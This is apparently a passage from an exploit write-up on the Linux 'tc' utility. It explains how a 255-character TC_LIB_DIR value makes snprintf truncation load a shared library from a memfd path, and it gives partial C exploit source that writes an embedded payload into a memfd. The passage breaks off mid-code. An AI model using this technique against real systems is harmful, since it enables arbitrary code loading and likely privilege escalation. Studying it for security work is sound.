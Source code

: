 so it will try to open a filename construct from `TC_LIB_DIR` env var, and e_name passed from command, ending by `.so`

so how to make it open our `/proc/<pid>/fd/<memfd>` path ???

we use a a another trick, we set the `TC_LIB_DIR`path to a 255 chars long string like this:

```
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////proc/8/fd/5
```

so when `snprintf()` will try to concatenate the strings, it will be cut just after the last char, 5 in this example.

Because it's already 255 chars and the buffer is only 256 chars long. So the rest of the format string "/e_%s.so" will just be not copied to buffer, and ignored.. and like this it will open our `memfd_create`shared library.

here is out exploit2.c source code that implements this exploit:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <string.h>
#include <fcntl.h>


#ifndef __NR_memfd_create
#define __NR_memfd_create 319
#endif

#include "shared.h"

static inline int memfd_create(const char *name, unsigned int flags) {
    return syscall(__NR_memfd_create, name, flags);
}

extern char **environ;

int main(int argc, char **argv) {
    int fd = memfd_create("exploit", 0);
    if (fd == -1) {
        perror("memfd_create");
        return 1;
    }

    if (write(fd, x_so, sizeof(x_so)) != sizeof(x_so)) {
        perror("write");
        return 1;
    }

    pid_t pid = fork();
    if (pid == -1) {
        perror("fork");
        return 1;
    }

    if (pid == 0) { // child
        char tc_lib_dir_val[256];
        char path[128];
        snprintf(path, sizeof(path), "/proc/%d/fd/%d", getpid(), fd);
```